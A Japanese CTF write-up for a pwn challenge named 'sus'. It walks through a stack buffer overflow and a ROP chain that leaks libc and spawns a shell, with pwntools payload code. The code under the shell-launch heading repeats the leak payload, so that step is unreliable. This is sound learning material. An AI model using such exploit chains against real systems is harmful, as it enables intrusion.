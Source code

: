 # sus
> stack buffer overflow \
> ROP (Return-oriented Programing)

__*以下の解説は、読者の知識量が問題を解く前の私と同程度であることを想定しています。*__
私はpicoCTFのHere's A LIBCなどを解いていたので、このwriteupで分からなかった部分はHere's A LIBCのwriteupを読むと良いかもしれません。


## 解法

* 明らかなBOF(Buffer overflow)が見える
* `checkseck sus`をすると、canaryが無いことが分かるので、普通にBOFできる
* このことを用いて、system('/bin/sh')を呼び出したい
* libcリークをしたいので、Dockerfileを持ってきてビルドしてlibc.so.6を持ってくる <- __*最難関*__
* リークしたいのはそうだが、sus 実行ファイルの中に`pop rdi`ガジェットが存在しない(らしい)ので、どうする？
* sus()呼び出しの際にローカル変数をrdiに入れているので、BOFでローカル変数を書き換え
* やるだけ

## libcを持ってくる
Dockerfileがあるので、ビルドしてこの中からlibcを持ってくるという裏技があるらしい。天才じゃん。 \
ここで初心者の私は、`lib/libc.so.6`を持ってきたため、一生を費やしても解けませんでした。`/srv/usr/lib/x86_64-linux-gnu/libc.so.6`から取ってくると良いです。なんで？そういうものです。

## Libc leak(一度目のペイロード)
```python
offset = 0x38
payload += b'A' * offset
payload += pwn.p64(e.got['puts']) # rdi
payload += pwn.p64(1)
payload += pwn.p64(e.plt['puts'])
payload += pwn.p64(e.sym['main'])
io.sendline(payload)
```

ここはやるだけに見えてきて嬉しい。　\
ROPの最初は`e.plt["puts"]`の呼び出しから始まる。実行ファイルのバイナリを読むと分かるが、`e.got["puts"]`を記述した部分にはもともとローカル変数である`u`の値がある部分である。uはsus呼び出しの引数となっているので、sus呼び出しの際に勝手にrdiに入れてくれる。よって、ここに`e.got["puts"]`を入れて`e.plt["puts"]`を呼べばlibcリーク完了である。

## シェル起動(二度目のペイロード)
```python
offset = 0x38
payload += b'A' * offset
payload += pwn.p64(e.got['puts']) # rdi
payload += pwn.p64(1)
payload += pwn.p64(e.plt['puts'])
payload += pwn.p64(e.sym['main'])
io.sendline(payload)
```
これもやるだけ(writeup 書くの 飽きた)

## 解けた！
解けました。